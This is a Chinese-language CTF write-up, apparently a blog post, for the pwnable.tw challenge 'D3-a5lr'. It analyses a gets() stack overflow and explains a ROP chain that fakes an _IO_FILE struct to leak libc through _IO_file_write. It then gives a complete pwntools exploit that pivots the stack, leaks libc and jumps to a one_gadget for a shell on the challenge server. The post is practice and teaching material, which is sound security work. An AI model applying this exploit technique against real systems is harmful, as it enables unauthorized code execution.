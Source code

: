 ```yaml
---
layout:     post
title:      "pwnable.tw之D3-a5lr"
subtitle:   " 花式ROP "
date:       2019-01-04 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - pwnable.tw


---
```


## 程序分析

```python

[*] '/home/giantbranch/D3-a5lr'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```c

push    rbp
mov     rbp, rsp
sub     rsp, 10h
lea     rax, [rbp-0x10]
mov     rdi, rax
mov     eax, 0
call    _gets
mov     eax, 0
leave
retn

```
## 漏洞利用

此题的关键是，利用`call    qword ptr [r12+rbx*8]` 这段gadget  , 来call `_IO_file_write` 泄露地址。

在做完stack pivot后，把栈地址迁移到可bss段控制区域，再次做一次gets，这时原本的stack上方会有一些与gets调用相关的libc地址。

![](/img/pic/D3-a5lr/pic1.jpg)

经过调试，上面在做gets时，同时向libc地址附近写入构造的数据

![](/img/pic/D3-a5lr/pic2.jpg)

我们要做的就是控制图中libc地址的上下方，目的是将libc地址送入r12，计算好的偏移地址`(address - stdin) / 8`填入rbx，这样就会`call [address]` ,rbp要设置为rbx+1这样才能保证call以后继续执行后面的rop。我们试图在libc中找到存在`_IO_file_write`的 `address`

![](/img/pic/D3-a5lr/pic3.jpg)


`IO_file_write`第一个参数是`_IO_FILE_`指针，为了调用write,有一处验证`fp->_flags2 & 2` ,另外write 第一个参数要为 1，所以我们在构造`fake_io_file`的时候，要把fileno设为1（stdout），flags2设置为2.

```c
__int64 __fastcall IO_file_write(_IO_FILE_ *a1, __int64 a2, __int64 a3)
{
  _IO_FILE_ *fp; // r14
  __int64 v4; // rbp
  __int64 v5; // r12
  __int64 v6; // rbx
  __int64 v7; // rdi
  __int64 v8; // rax
  __int64 result; // rax
  __int64 v10; // rdx

  fp = a1;
  if ( a3 <= 0 )
  {
    result = 0LL;
  }
  else
  {
    v4 = a2;
    v5 = a3;
    v6 = a3;
    do
    {
      if ( fp->_flags2 & 2 )
      {
        v7 = (signed int)fp->_fileno;
        v8 = 1LL;
        __asm { syscall; LINUX - }
      }
      else
      {
        v8 = write((unsigned int)fp->_fileno, v4, v6);
      }
      if ( v8 < 0 )
      {
        LODWORD(fp->_flags) |= 0x20u;
        result = v5 - v6;
        goto LABEL_6;
      }
      v6 -= v8;
      v4 += v8;
    }
    while ( v6 > 0 );
    result = v5 - v6;
  }
LABEL_6:
  v10 = fp->_offset;
  if ( v10 >= 0 )
    fp->_offset = result + v10;
  return result;
}

```


## EXP

```python
from pwn import*

context(os='linux', arch='amd64')

#env = {}
#env = {'LD_PRELOAD' : './libc_64.so.6'}
#p = process('./D3-a5lr', env=env)


p=remote("chall.pwnable.tw",10402)

libc = ELF('./libc_64.so.6')
elf = ELF('./D3-a5lr')


def g(p):
    gdb.attach(p)
    raw_input()

bss = 0x601010
gets_plt=0x400430
gets_got=0x600ff0
pop_rdi = 0x4005c3
pop_rsp_r13_r14_r15 = 0x00000000004005bd
pop_rbx_rbp_r12_r13_r14_r15 = 0x4005ba
pop_r12_r13_r14_r15 = 0x4005bc
pop_rsi_r15 = 0x00000000004005c1
pop_r13_r14_r15 = 0x4005be
mrdx13_mrsi14_mrdi15_call = 0x4005a0 # mov rdx, r13 ; mov rsi, r14 ; mov edi, r15d ; call qword ptr [r12 + rbx*8]
call_r12_plus_rbx_mul_8 = 0x4005a9
main = 0x400536

buf = bss + 0x100
buf1 = bss+ 0x200 

fake_file = "\x00"*0x70+p64(1)+p64(2)
fake_file =fake_file.ljust(0xe0,"\x00")

rop1=p64(pop_rdi)+p64(buf1)+p64(gets_plt)+p64(main)
p.sendline("a"*24+rop1)

call_rop=p64(pop_r13_r14_r15)+p64(0x8)+p64(gets_got)+p64(buf1)+p64(mrdx13_mrsi14_mrdi15_call)+"p"*0x38+p64(main)
p.sendline(fake_file+call_rop)

rop2=p64(pop_rdi)+p64(buf)+p64(gets_plt)+p64(pop_rsp_r13_r14_r15)+p64(buf)
p.sendline('b'*24 + rop2)

rop3="c"*8 + p64(pop_rsp_r13_r14_r15) + p64(buf1 + 0xe0 - 0x18)+ p64(pop_rdi)+p64(buf-0x38)+p64(gets_plt)+p64(pop_rsp_r13_r14_r15)+p64(buf-0x50)
p.sendline(rop3)

p.sendline(p64(pop_rbx_rbp_r12_r13_r14_r15)+ p64(0xfffffffffffffdeb) + p64(0xfffffffffffffdeb+1))

leak_libc = u64(p.recv(8))
libc = leak_libc - libc.symbols['gets']
print "libc : " +hex(libc)
one_gadget=libc + 0xf0567	

p.sendline('d'*24 + p64(one_gadget))

p.interactive()



```

运行结果：

![](/img/pic/D3-a5lr/pic4.jpg)

>[下载地址](https://github.com/yxshyj/project/tree/master/pwn/D3-a5lr)